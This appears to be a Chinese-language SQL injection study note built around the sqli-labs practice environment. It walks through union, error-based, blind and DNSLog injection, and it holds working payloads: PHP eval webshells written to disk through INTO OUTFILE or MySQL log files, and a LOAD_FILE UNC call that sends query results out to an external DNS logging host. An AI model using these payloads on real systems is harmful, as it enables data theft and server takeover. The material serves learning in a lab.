









# sql注入

> https://www.freebuf.com/articles/web/339118.html

## 什么是SQL注入？

###  什么是SQL

- SQL，全称是Structured Query Language，是一种结构化查询语言，是一种数据库查询和程序设计语言，用于存取数据以及查询、更新和管理关系数据库系统。

- SQL类型

    - 前期会增删查改就行

     * DQL：query，select

     * DML：manual，insert，update，delete

     * DDL：define，create，drop，alter

     * DCL：control，grant，revoke，commit，rollback

     * 函数：字符串函数，数字函数，日期函数

     * 运算符：算术运算符，比较运算符，逻辑运算符，位运算符

- 熟悉数据库的基本操作（以MySQL为例）

    - 下载mysql数据库并安装好。
    
    - 打开cmd，输入mysql，如果显示**没有找到指令或程序**之类的错误提示，需要在环境变量中添加mysql的路径。
    
    - 添加成功后，在cmd中输入`mysql -uroot -proot`，在最下面一行会出现“**mysql**>”字样，表示成功进入数据库。
    
    - 以下是查看数据库信息的一些操作指令：
    
        ```sql
        show databases;				#查看所有数据库
        create database 数据库名；    #创建一个数据库
        use 数据库名;				  #使用mysql中某个数据库
        show tables;				#查看数据库中的所有表
        select databse();			#查看当前选择的数据库 
        select user();				#查看当前操作的用户
        select version();			#查看当前MySQL的版本
        desc 表名;				   #查看某个表格的属性
        show colmuns from 表名;	   #查看某个表格的属性
        ```

- 网站使用数据库

    - 如果一个网站只有前端的文件，那么这个网站是静态网站，而我们主要是对动态网站进行分析。
    - 网站项目架构一般如下
        ```mermaid
        graph LR
        A(浏览器) --> B(前端服务器HTML CSS JPG)
        B --> C(后端服务器Java python PHP)
        C --> D(DBMS)
        ```
    - 对于一个登录页面，一般需要输入用户名和密码，对于用户输入的参数，处理方式一般如下：

        ```sql
        user=admin&password=123456
        
        "select * from table_name where user ="+user+"and password ="+password
        ```
    
- **在安装好MySQL之后自带了一些系统数据库（sql注入就是要利用这个来获得数据**）。
  
    - 
    
    - 最重要的就是自带的**information_schema数据库**。它是系统数据库，记录是当前数据库的数据库，表，列，用户权限等信息
    
    - **information_scema数据库有schemata，tables，columns三个重要的表。**
    
    - 常用sql语句。
    
        ```sql
        select schema_name from information_schema.schemata;	#查询所有数据库名
        select table_name from information_schema.tables where table_schema='test';	#查询test数据库中的所有数据表名
        select column_name from information_schema.columns where table_schema='test' and table_name='users';		#查询test数据库中的users数据表的所有列名
        ```
    

### 为什么会产生sql注入漏洞

- sql注入和xss注入一样都是因为我们插入的数据被当作功能执行了。
- 一般用户登录用的SQL语句为：`SELECT * FROM user WHERE username='admin' AND password='passwd'`，此处admin和passwd分别为用户输入的用户名和密码，如果程序员没有对用户输入的用户名和密码做处理，就可以构造万能密码成功绕过登录验证。
- 如用户名输入`admin' #`，密码输入空。后台语言得到参数然后将SQL语句拼接为：`SELECT * FROM user WHERE username='admin' #' AND password=''`。#注释掉后面的sql语句。这样使得该语句不需要密码就能返回user表中admin的数据了。
- 当然，由于预编译技术，这种直接把变量拼接到sql语句中的代码，已经很少了。

## 搭建靶场

### 使用docker搭建靶场

使用docker下载sqli-labs靶场

### 下载phpstudy搭建靶场（win10）

​	在下载的phpstudy软件中，点击软件管理选项，选择**php5.4.45**版本，进行安装

* 配置sqli-labs
    * 在github上下载[slqi-labs-master](https://github.com/Audi-1/sqli-labs)，解压到phpstudy的www文件夹下
    * 打开文件夹*www/sqli-labs-master/sql-connections-db-creds.inc*，将*$dbpass=’’*修改为**$dbpass=’root’**；
    
* 修改php版本
    * Phpstudy -》网站 -》管理 -》php版本 -》选择5.4版本
    
* 测试环境
    * 在浏览器输入<http://localhost/sqli-labs-master/>，出现sqli-labs的相关界面信息
    * 点击该网页中的*Setup/reset Database for labs*选项，如果出现”**Welcome Dhakkan**“字样，表示配置成功。

## SQL注入方式



### 基础

- 按照获取信息的方式分类：

    - **基于语法报错的注入：**即页面会返回语法错误信息，或者把注入的语句的结果直接返回在页面中**。这是最简单的情况。

    - **基于布尔的盲注：**无语法报错，但是成功执行sql语句和不成功执行会显示不同页面。

    - **基于时间的盲注：**即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断

    - **联合查询注入**

    - **堆查询注入(可同时执行多条语句)**

- 难易程度：

    - **语法报错+字符串输入**：**加引号发现报错即存在注入**，闭合引号然后注入，需要注释掉后面的语句或者闭合后面的引号。（单引号，双引号，根据报错看引号外面是否包含了括号）。
    - **报错+数字输入**：如果后台未过滤非数字的输入，那么和字符串输入一样，只是不需要闭合引号。
    - **报错+双注入+字符串输入**：**双注入用于网页不回显我们用户数据，但报sql语法错误**，也就是查询语句得到的数据结果不显示在页面上，所以需要通过双注入报错显示出我们想要的数据。
    - **输出数据到文件里：`select 1,2,"<?php @eval($_POST['123']);?>" into outfile "yourpath"`，**需要知道网页的物理路径，可以写个一句话木马，适用于mysql低版本，还需注意该目录是否可写。
    - **基于布尔的盲注：**盲注是因为sql语句语法错误信息不会显示出来。但有效用户数据和无效用户数据会显示出区别。
    - **基于时间的盲注：**有效无效页面都一样，语法错误也不报错.
    - **post提交：**以上同样存在于post提交。在post里面与get一样，只是可能不需要自己编码。
    - **更新查询：**已知用户名，在更改密码处存在注入。
    - `UPDATE users SET  password = '$passwd' WHERE username='$row1'` 一般是这种sql语句。
    - **http头部注入**：当页面会返回header头的信息，例如ip，cookie之类的要想到header可能存在注入点。本质是头部字段与name passwd一样都insert数据库了,这时注入的原sql语句是insert语句，注入方式和之前的一样，有报错无回显就双注入，无报错无回显就盲注。
    - **二阶注入（存储型注入):**
    - **堆叠注入：**

- 在注入的时候，要确定后台语句的闭合方式。
    - 整数，单引号`' '`，单引号加括号`(" ")`，双引号`" "`，双引号括号`("")`。
    - 尝试`?id=1"`和` ?id=1"`，如果都报错，则是整数输入。
        - 单引号报错，双引号不报错。则需闭合单引号
            - 如果`?id=1' #`报错，则还需闭合括号

        - 双引号报错，单引号不报错。则需闭合双引号。
            - 如果`?id=1" #`报错，则还需闭合括号

- mysql注释符号

    ```sql
    #
    --+
    /* */
    ```

### 注入常用sql函数

```sql
database() #返回当前数据库名，
version()  #返回数据库的版本号。
system_user() #系统用户名
session_user() #连接数据库的用户名
current_user() #当前用户名
```

```sql
文件相关
load_file()  #读取本地文件,
@@datadir    #读取数据库路径
@@basedir  #mysql安装路径,
@@version_complie_os #查看操作系统
```

1. ascii(str) : 返回给定字符的ascii值，如果str是空字符串，返回0；如果str是NULL，返回NULL。如 ascii("a")=97
2. length(str) : 返回给定字符串的长度，如 length("string")=6
3. substr(string,start,length) : 对于给定字符串string，从start位开始截取，截取length长度 ,如 substr("chinese",3,2)="in"  也可以 substr(string from start for length)
4. substr()、stbstring()、mid() 三个函数的用法、功能均一致
5. concat()函数：爆出1条数据的全部字符
  1. 语法：concat(str1, str2,...)：返回结果为连接参数产生的字符串，如果有任何一个参数为null，则返回值为null。
  2. 举例：1:select concat (id, name, score) as info from tt2;
  3. concat里面不能使用group_concat,里面可以用select。
6. concat_ws()函数：爆出1条数据的全部字符，可以指定分隔符
  1. 功能：和concat()一样，将多个字符串连接成一个字符串，但是可以一次性指定分隔符～（concat_ws就是concat with separator）
  2. 语法：concat_ws(separator, str1, str2, ...)
  3. 说明：第一个参数指定分隔符。需要注意的是分隔符不能为null，如果为null，则返回结果为null。
7. count函数：得到表的个数，列的个数，用户数据数据的个数。
8. group_concat()函数：要是有多个数据要爆出，比如爆出一个数据库中所有表，表中所有列，用group_concat()
  1. 前言：在有group by的查询语句中，select指定的字段要么就包含在group by语句的后面，作为分组的依据，要么就包含在聚合函数中。
  2. 但是这样同一个名字出现多次，看上去非常不直观。有没有更直观的方法，既让每个名字都只出现一次，又能够显示所有的名字相同的人的id呢？——使用group_concat()
  3. 功能：将group by产生的同一个分组中的值连接起来，返回一个字符串结果。
  4. 语法：group_concat( [distinct] 要连接的字段 [order by 排序字段 asc/desc ] [separator '分隔符'] )
  5. 说明：通过使用distinct可以排除重复值；如果希望对结果中的值进行排序，可以使用order by子句；separator是一个字符串值，缺省为一个逗号。 
9. sleep(n) ：睡眠n秒

### 如何判断是否存在sql注入：

- 二话不说，先加单引号'、双引号"、单括号）、双括号））等看看是否报错，如果报错就可能存在

SQL注入漏洞了。

- 还有在URL后面加 and 1=1 、 and 1=2 看页面是否显示一样，显示不一样的话，肯定存在SQL注入

漏洞了。

- 还有就是Timing Attack测试，也就是时间盲注。
- 易出现SQL注入的功能点：凡是和数据库有交互的地方都容易出现SQL注入，SQL注入经常出现在登陆

页面、涉及获取HTTP头（user-agent / client-ip等）的功能点及订单处理等地方。例如登陆页面，除常

见的万能密码，post 数据注入外也有可能发生在HTTP头中的 client-ip 和 x-forward-for 等字段处。这

些字段是用来记录登陆的 i p的，有可能会被存储进数据库中从而与数据库发生交互导致sql注入

### 判定数据库类型：

网站大部分还是使用mysql数据库的，之后的教程都是以mysql数据库为例。

**不同数据库有自己独特的表**



- 判断是否是 Mysql数据库
    - http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from information_schema.tables) #

- 判断是否是 access数据库
    - http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from msysobjects) #

- 判断是否是 Sqlserver数据库
    - http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from sysobjects) #

- 判断是否是Oracle数据库
    - http://127.0.0.1/sqli/Less-5/?id=1' and (select count(*) from dual)>0 #

- MariaDB数据库管理系统是MySQL的一个分支，MariaDB的目的是完全兼容MySQL，包括API和命令行，使之能轻松成为MySQL的代替品。

### union联合查询

- union联合查询适用于有显示列的注入。

- 我们可以通过order by来判断当前表的列数。Order by  3/2/1 。直接跟在注入点后面，后面的语句要注释掉。

- 我们可以通过 union 联合查询来知道显示的列数 ，union select 1,2,3.....n  ，找到哪些列的数据会被显示到页面。(union会将两个select语句的结果合并成一个集合（也就是多行数据），所以union之前的我们需要输入一个无效的用户数据）

- | **查询当前数据库名和版本** | union select database(),version(),user(),@@basedir,@@datadir  ，       @@basedir可以获取mysql的安装路径，@@datadir用来获取mysql的数据路径。 |
    | -------------------------- | ------------------------------------------------------------ |
    | **查询全部数据库名**       | SELECT       group_concat(**schema_name**) FROM **information_schema.schemata**; |
    | **爆表名注入**             | select 1,group_concat(**table_name**) from **information_schema.tables** where **table_schema**='数据库名' # |
    | **得到列名**               | union select  group_concat (column_name) from       **information_schema.columns** where **table_schema**='security'and **table_name**='users'# |
    | **爆数据**                 | select 1,count(user),count(password) from 当前数据库中的表   （或者使用group_concat爆出数据（慎用） ）       获取当前数据库中指定表的指定字段的值(只能是database()所在的数据库内的数据，因为处于当前数据库       下的话不能查询其他数据库内的数据) |

### 文件读写：写webshell，然后连接。

- 当有显示列的时候，文件读可以利用     union 注入。

- 当没有显示列的时候，只能利用盲注进行数据读取。

- union注入读写文件(load_file函数和select     into outfile语句):

    - 读文件

    - ```mysql
        #需要知道文件的物理路径：
        union select 1,2,load_file("e:/3.txt")#， 
        可以将path转成16进制，
        
        `union select 1,2,load_file(0x653a2f332e747874)#`   
        e:/3.txt 转换成16进制 0x653a2f332e747874
        ```

        写文件

        - 需要对目标目录具有写权限

        - 要知道网站的绝对路径

        - GPC关闭(GPC:是否对单引号转义)

        - 没有配置secure-file-priv。可以通过select @@secure_file_priv;查询

            - ```
                如果为NULL,则不能写入
                （2）：如果为空，可以在任意文件位置下写入
                （3）：如果为一个路径，可以在该文件路径写入
                ```
        
        - **root权限**
        
        - ```sql
            union select 1,2,'<?php     @eval($_POST[aaa]);?>' into     outfile 'e:/4.php' 
            #可以将一句话木马转换成16进制的形式：
            union select 1,2,0x3c3f70687020406576616c28245f504f53545b6161615d293b3f3e  into outfile
            
            #利用分隔符写入
            ?id=1 into outfile 'D:/WWW/evil.php' fields terminated by '<?php assert($_POST["cmd"]);?>'
            
            ?id=1 into outfile 'D:/WWW/evil.php' lines terminated by '<?php phpinfo() ?>'--+
            
            ?id=1 LIMIT 0,1 INTO OUTFILE 'D:/WWW/evil.php' lines terminated by 0x20273c3f70687020406576616c28245f504f53545b2767275d293b3f3e27 --+
            
            #同样的技巧，一共有四种形式
            ?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#
            
            ?id=1 INTO OUTFILE '物理路径' fields terminated by （一句话hex编码）#
            
            ?id=1 INTO OUTFILE '物理路径' columns terminated by （一句话hex编码）#
            
            ?id=1 INTO OUTFILE '物理路径' lines starting by    （一句话hex编码）#
            
            ```
        
    - **新版本的MySQL设置了导出文件的路径，很难在获取Webshell过程中去修改配置文件，无法通过使用select into outfile来写入一句话。这时，我们可以通过修改MySQL的log文件来获取Webshell。**

    - **需要满足的条件**

        - 对web目录有写权限

        - GPC关闭(GPC:是否对单引号转义)

        - 有绝对路径(读文件可以不用，写文件需要)

        - 需要能执行多行SQL语句

        - ```sql
            show variables like '%general%';            	 # 查看配置
            
            set global general_log = on;              		 # 开启general log模式,将所有到达MySQL Server的SQL语句记录下来。
            
            set global general_log_file = 'D:/WWW/evil.php'; # 设置日志目录为shell地址
            
            select '<?php eval($_GET[g]);?>'             	 # 写入shell
            
            set global general_log=off;                  	 # 关闭general log模式
            
            ```

    - 在高版本的mysql中默认为NULL，就是不让导入和导出

        - ```bash
            解决办法：
            
            在Windows下可在my.ini的[mysqld]里面，添加secure_file_priv=
            
            在linux下可在/etc/my.cnf的[mysqld]里面，添加secure_file_priv=
            ```

        - **使用慢查询日志绕过此限制**

            ```sql
            show variables like '%slow_query_log%';			#查看慢查询日志开启情况
            
            set global slow_query_log=1						#开启慢查询日志
            
            set global slow_query_log_file='D:/phpStudy/WWW/evil.php;    #修改日志文件存储的绝对路径
            
            '<?php @eval($_POST[1]);?>' or sleep(11);		#写入shell
            
            show global variables like '%long_query_time%'; #使用慢查询日志时，只有当查询时间超过系统时间(默认为10秒)时才会记录在日志中，使用如下语句可查看系统时间
            ```

- ```sql
    --os-cmd="net user"
    #交互式命令执行，注意在使用交互式方式时需要知道网站的绝对路径，执行成功之后在绝对路径下创建文件返回结果，然后再自动删除。
    
    --os-shell
    #写webshell，会生成两个文件，tmpbshrd.php和tmpucnll.php，分别为命令执行和文件上传webshell。
    #注意:关闭sqlmap文件就会被删除。
    
    ```

### 双查询报错注入(一次最多爆出32位字符)
SQL语句中有语法错误，根据返回的错误信息，可以察觉到一些数据库信息。
**适用场景**：**没有数据回显，条件正确与否结果一样，sleep没区别，但是错误信息会打印出来**
**利用方式**:     利用语法错误，把value在前端输出

- 部分不允许有语法错误的函数

    ```sql
    updatexml()、
    geometrycollection()、
    multipoint()、
    polygon()、multipolygon()、linestring()、multilinestring()、exp()
    ```

- 原理

    ```sql
    select count(*),floor(rand(0)*2) as a  from table group by a
    
    #Group by 数据里面如果是表达式列名 将会再次执行表达式,
    #Count(*)函数与group by函数同时用时，会建立一个虚拟表，取原表第一条数据进行计算，如果这时候键值不存在（也就是之前group by没有分行过的） 就会插入一条数据进入虚拟表 这时候键值为group by 后面所带的数据 ，然后取原表第二条数据，如果键值存在，则 count加1 不插入新键值， 如果键值不存在则插入新键值。那么问题来了如果 group by 后是表达式列名，当键值不存在插入时，可能会发生插入数据键值是group by后第二次执行表达式的键值 ，当第二次插入时数据键值不存在，进行插入新键值 ，但group by 后第二次执行表达式的键值却存在，这时候会出错（根据数据库完整性 不可能同时出现两个相同键值）。例如第一次floor为0，group by a 为1，键值为1，第二次 floor 0，group by a 1，因为0不是键值，所以会插入 a 1，但1已经存在所以会报错。数据是先查询后插入到虚拟表的。
    ```

    ```sql
    #count(*)占一列,想爆出的数据在concat里面构造(使用select语句)，concat里面包含floor(rand())，然后concat as a，from指向对应表,必须from一个表。
    #因为会报语法错误，所以可以和之前order by n 一样。知道sql语句列数
    
    select count(*),concat(floor(rand(0)*2),'~',database())as a from information_schema.schemata group by a
    
    select 1,count(*),concat(floor(rand(0)*2),'~',(select schema_name from information_schema.schemata limit 4,1))as a from information_schema.schemata group by a %23
    ```

- 其他双注入

    ```sql
    extractvalue(xml_frag,xpath_expr)
    # extractvalue()接受两个字符串参数，一个xml标记xml_frag的片段和一个xpath表达式xpath_expr(也称为定位符)。这个函数返回第一个文本节点的文本 也可用作报错注入。 返回结果 限制在32位字符。
    id=1' and and extractvalue(1,concat(0x5e24,(select id from users limit 0,1)))-
    
    updatexml(xml_target,xpath_expr,new_xml)
    #此函数用新的xml片段new_xml替换xml标记xml_target的给定片段的单个部分，然后返回更改的xml。被替换的xml_target的部分与用户提供的xpath表达式xpath_expr匹配。例如
    id=1' and updatexml(1,concat(0x5e24,(select username from users limit 0,1)),1)--+
    
    name_const(name,value)
    # 用于生成结果时，name_const()会使列具有给定的名称。参数应该是常量。它和select value as name是等价的。我们可以构造两个列使得它们名字一样并在列名中填写获得我们想要的信息的语句。
    
    
    ```

- 解决返回结果限制在32位字符。

    ```sql
    substr(字符串,截取开始位置,截取长度) #返回截取的字
    #left函数，right函数
    extractvalue(0x0a,concat(0x0a,(select(left(password,20))from(H4rDsq1))))%23
    ```

### 盲注

> 利用前提：页面上没有显示位，也没有输出 SQL 语句执行错误信息。正确的 SQL 语句和错误的 SQL 语句返回页面都一样，但是加入 sleep(5)条件之后，页面的返回速度明显慢了 5 秒。
>
> 优点：不需要显示位，不需要出错信息。
>
> 缺点：速度慢，耗费大量时间

盲注要用到的函数

```sql
length(str)	返回字符串str的长度
if(expr1,expr2,expr3): 	 sql的if语句就相当于一个三元运算符，1对执行2，1错执行3
LEFT(character_expression,integer_expression);	返回字符串中从左边开始指定个数字符。
RIGHT(character_expression,integer_expression);	返回字符串从右边开始指定个数字符。
select mid('abcdefghijklmn',5,5);
substr()函数：	substr('123456',3,2);  结果是--34 
    #作用：用来截取数据库某个字段中的一部分。     
    #语法：substr(string,start,length)  下标从1开始
select ord('a');
ASCII(str)：	返回字符串str的最左字符的整数数值。
    #如果str为空字符串,返回0。如果str为NULL，返回NULL，。 ASCII()返回数值是从0到255。python ord功能和它一样，与之相反的是chr
sleep(n)	#睡眠函数，当函数执行时，会睡眠n秒，然后才唤醒进程。
benchmark函数，可以让同一个函数执行若干次	
Benchmark(count,expr) ，这个函数执行的结果，是将表达式 expr 执行 count 次 。benchmark(100000000,md5(1))

select user() regexp '^se';	#判断是不是以se开头的
select user() like 'se%'		#与上条语句含义相同

```

#### 布尔盲注

- 可以理解为给网站一个判断题，根据反应的对错来猜测数据库信息。
    - **适用场景**：没有数据回显，若条件正确有结果，否则没结果
    - **利用方式**：构造判断条件，逐个猜测

- 

- 第一步：闭合引号，这个需要自己慢慢试，用`or 1=1  and 1=1`得到正确的sql语句构造方法。
- 先爆破出数据库名字符长度：`and     length(database())> 1 %23` 用二分法慢慢试或直接等号遍历。
- 爆破出当前数据库名：`and ascii(substr(database(),n,1)) = m #`。n就用来遍历数据库名字，m就来确定数据库名字某位是哪一个字符
- 爆破出当前数据库的表个数：`select count(table_name) as a from information_schema.tables where table_schema=database() having a={n})`。n爆破表个数。HAVING     子句可以让我们筛选满足条件的数据。
- 爆破每一个表的表名长度：`(select length(table_name) from information_schema.tables where table_schema=database() limit {n},1)={m}`
- 爆破各个表名：`and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit n,1),q,1))>m`

- 爆破表的列名。
- 爆破数据

####  基于时间的盲注

**适用场景**：没有数据回显，条件正确与否结果一样。使用sleep时正确sql语句会延迟，错误不会延迟。
**利用方式**：构造判断条件，添加**sleep**，逐个猜测

- 第一个步：闭合引号，因为页面同样的，所以我们需要构造` id=1’ and sleep(5) #`,一旦有延迟5秒，那我们就构造了正确的sql语句。通过不断试引号括号注释，找到闭和前面注释后面的方式。

- 先爆破出数据库名字符长度：使用if函数，`and if((length(database()) = m),sleep(1),0)`，睡眠时间不要太短，1秒就可以了。
- 爆破出当前数据库名： `and if((ascii(substr(database(),n,1)) > m),sleep(1),0)`

- 爆破出当前数据库的表个数：`and if((select count(table_name) as a from information_schema.tables where table_schema=database() having a={0}),sleep(1),0)`

- 爆破每一个表的表名长度：`if((select length(table_name) from information_schema.tables where table_schema=database() limit {0},1)={1},sleep(1),0)`
- 爆破各个表名：`if((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit {0},1),{1},1))>{2}),sleep(1),0)`
- 爆破表的列名。

- 爆破数据

### DNSLog注入
- DNSLog

    - 当要访问一个网站，一般我们只知道域名，但是不知道IP。那么我们可以先访问DNS服务，通过域名得到一个IP地址，再用IP去访问网站所在的服务器，从而可以显示网页。
    - 而在访问DNS服务的时候，会有一个日志记录下什么时候访问的、请求的域名以及域名对应的IP信息等，这个日志就是**DNSLog**。我把我们想要的信息加到域名请求里面。
    
- DNSlog平台：

    - 国外 http://www.dnslog.cn/   [http://ceye.io](http://ceye.io/)
    
    - 国内：

- DNSLog注入流程

    - 把select load_file()注入到数据库，访问文件

    - unc构建dns服务器地址，假装访问文件，产生dnslog

        ```sql
        SELECT LOAD_FILE(CONCAT('\\\\',(要查询的语句),'.xx.xx.xx\\abc'));
        ```

    - 执行的语句：

        - 

    - DNSLog平台收到的DNS查询

    - 

### **REGEXP正则匹配**

1. - **可以代替比较运算符** **= > <**
    - 

- 查找name字段中含有a或者b的所有数据：   select name from admin where name     regexp ' a|b ';
